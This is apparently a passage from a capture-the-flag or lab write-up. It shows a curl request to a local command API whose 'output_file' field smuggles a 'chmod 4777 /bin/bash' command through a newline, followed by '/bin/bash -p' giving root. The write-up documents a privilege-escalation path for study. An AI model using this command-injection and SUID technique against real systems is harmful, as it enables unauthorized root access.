 ```bash
# Set the SUID bit for /bin/bash
curl -X POST http://localhost:9090/command -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzkzNDEyNSwianRpIjoiYzBmOTA1MjEtZjdkYy00MjMyLWE0NDMtMWM5ZWM2OGM2NWFjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzkzNDEyNSwiY3NyZiI6IjcyNGZkMGJmLWZhNjctNDQ4YS04ZjIyLWYxOWI3MjhkMmIxZCIsImV4cCI6MTczNzkzNzcyNX0.rlv1DgTaw7Vz097tSlm9l9N0SLbDTfAfcQlzjOVZb28" --data '{"command":"send_image", "output_file": "aaa \n chmod 4777 /bin/bash"}'
```

Back in `developer`'s SSH session, I escalate to `root`.

```bash
# Don't drop privileges
/bin/bash -p
# I have root
whoami
# -> root
```

